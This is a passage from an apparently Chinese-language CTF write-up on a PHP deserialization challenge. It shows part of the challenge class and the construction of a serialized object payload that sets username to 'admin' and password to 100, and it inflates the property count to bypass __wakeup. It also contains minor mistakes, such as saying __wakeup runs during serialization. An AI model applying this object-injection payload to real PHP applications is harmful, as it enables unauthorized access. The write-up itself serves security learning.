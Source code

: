 ```php
            echo "You password is: ";
            echo $this->password;
            echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        } else {
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();


        }
    }
}
$name = new Name();
echo serialize($name);

?>
```

### payload 构造

```php
这里得在 username=admmin 和 password = 100 时才能触发flag。但是 `__wakeup` 方法会在序列化的时候将 username改为guest

<?php
class Name
{
    private $username = 'admin';
    private $password = 100;

}

$name = new Name('admin', 100);
echo serialize($name);
```

==输出==

```php
由于是 private 属性，所以需要使用 %00 来填补空
O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
再通过 修改属性数量 来达到绕过 __wakeup 方法的目的
O:4:"Name":12:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```
